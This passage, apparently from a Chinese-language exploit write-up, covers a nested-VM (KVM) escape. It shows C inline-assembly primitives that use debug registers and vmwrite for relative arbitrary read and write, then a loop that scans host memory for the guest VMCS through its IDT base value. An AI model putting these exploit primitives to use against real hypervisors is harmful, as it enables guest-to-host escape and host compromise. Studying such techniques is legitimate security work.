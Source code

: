 ```c
    asm("movq %%db2, %0" :"=r" (value));
    return value;

}
```

任意写通过设置db0和db1和db2，将db2写到目的位置

```c
static void write_relative(size_t offset_to_nest_vmcs,size_t value)
{
    size_t vmcs_field_value=0;
    size_t vmcs_field=0;
    size_t magic=0x1337BABE;
    asm("movq %0, %%db0"    ::"r" (magic));
    asm("movq %0, %%db1"    ::"r" (offset_to_nest_vmcs));
    asm("movq %0, %%db2"    ::"r" (value));
    asm volatile (
    "vmwrite %1, %0\n\t"  
    : "=r" (vmcs_field_value)
    : "r" (vmcs_field)
);
    asm("movq %%db2, %0" :"=r" (value));

}
```

寻找虚拟机的VMCS的偏移
-------------

由于我们是相对嵌套虚拟机的VMCS在宿主机上的虚拟地址的相对任意地址读和写，而VMCS都是kmalloc分配的，然后内核堆在直接映射区上，所以通过上下相对地址扫描去根据VMCS相关特征去找虚拟机的VMCS在宿主机上的虚拟地址

根据vmcs结构体的特征，我们选择其字段guest\_idtr\_base 。这个值不会变化，并且VMCS 需要页面对齐，因此只需要在页面粒度的偏移 0x208 处查找 IDT 基地址0xfffffe0000000000（guest\_idtr\_base ）就可以找到虚拟机的VMCS的虚拟地址

我们可以看看偏移为0时候vmcs的内容，就是vmcs\_revision的字段内容

```c
 for (i = 0; i < 0x4000; i++) {
        pos_offset = ((i * 0x1000) + 0x208) / 8;
        neg_offset = ((i * -1 * 0x1000) + 0x208) / 8;

        pos_val = read_relative(pos_offset);
        if (pos_val == 0xfffffe0000000000) {
            found_val = pos_val;
            found_offset = pos_offset;
            break;
        }

        neg_val = read_relative(neg_offset);
        if (neg_val == 0xfffffe0000000000) {
            found_val = neg_val;
            found_offset = neg_offset;
            break;
        }
    }
    pr_info("vmcs12[%llx * 8] = %llx\n", pos_offset, pos_val);
    pr_info("vmcs12[%llx * 8] = %llx\n", neg_offset, neg_val);
```
